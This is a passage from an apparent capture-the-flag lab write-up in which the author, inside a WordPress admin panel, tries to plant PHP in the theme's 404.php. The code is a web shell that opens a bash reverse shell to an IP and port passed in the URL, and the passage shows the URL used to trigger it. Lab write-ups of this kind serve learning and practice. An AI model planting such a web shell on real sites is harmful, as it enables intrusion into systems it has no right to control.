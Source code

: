 ![](../attachments/dante_3.png)

Then, I can find a normal wordpress admin panel as usual.

Typical way to spawn a shell is editing php file.
Through "Application - Theme Editor", I can get to the edit page.

I inserted the following php code in `404.php` code.

```php
<?php
if (isset($_GET['bokchee'])) {
    $ip = escapeshellarg($_GET['ip']);
    $port = escapeshellarg($_GET['port']);
    system("/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'");
}
?>
```

Then I fetched the `404.php` page using the following URL:
`http://enterprise.htb/?p=169&bokchee=1&ip=10.10.14.4&port=443`

However, it doesn't work with the following error message.

![](../attachments/dante_4.png)

I think this version(4.9) of wordpress doesn't allow direct modification of php files.
